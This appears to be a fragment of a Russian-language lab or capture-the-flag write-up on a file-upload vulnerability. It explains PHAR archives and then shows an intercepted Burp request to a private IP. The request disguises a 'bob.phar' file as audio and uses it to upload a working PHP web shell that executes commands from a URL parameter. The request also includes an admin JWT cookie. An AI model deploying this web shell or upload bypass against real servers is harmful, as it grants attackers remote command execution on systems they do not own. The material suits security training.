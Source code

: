 ```
```
#### Руками
В процессе поиска нашёл вот такую забавную штуку 
https://owasp.org/www-chapter-pune/meetups/2023/Jan/File-upload-Vulnerability-Praveen-Sutar.pptx.pdf

PHAR (PHP Archive) — это формат, который позволяет упаковывать файлы PHP и другие ресурсы в один архив, что облегчает распространение и использование приложений. PHAR-файлы могут содержать PHP-код, библиотеки, изображения и другие ресурсы, что делает их удобными для развертывания.

- **Исполняемость**: PHAR-файлы могут быть исполняемыми. Это означает, что вы можете запускать их как обычные скрипты PHP.

Запрос При перехвате в burp 
```
POST /secret/uploadMusic.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Host: 10.124.1.241
Content-Type: multipart/form-data; boundary=---------------------------20454028017691591591771889877
Content-Length: 706
Origin: http://10.124.1.241
DNT: 1
Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiYWRtaW4iLCJlbWFpbCI6ImFkbWluQG11c2ljay5jb20iLCJpc3MiOiJsb2NhbGhvc3QiLCJhdWQiOiJsb2NhbGhvc3QiLCJpYXQiOjE3Mjc0NjA5MzcsImV4cCI6MTcyNzQ2NDUzN30.Twzf56dfM2tXd6ZDWfA35Xt_so3nXWHiZGHhBg6n9aw
Upgrade-Insecure-Requests: 1

-----------------------------20454028017691591591771889877
Content-Disposition: form-data; name="userfile"; filename="bob.phar"
Content-Type: audio/mpeg

<?php
    $output = null;
    $retval = null;

    if(isset($_GET['cmd'])) {
        // Capture the output and return value of the system command
        exec($_GET['cmd'], $output, $retval);
    }

    // Output the captured output
    if(is_array($output)) {
        foreach($output as $line) {
            echo $line . "\n";
        }
    }
?>

-----------------------------20454028017691591591771889877
Content-Disposition: form-data; name="upload_btn"

Upload
-----------------------------20454028017691591591771889877--

```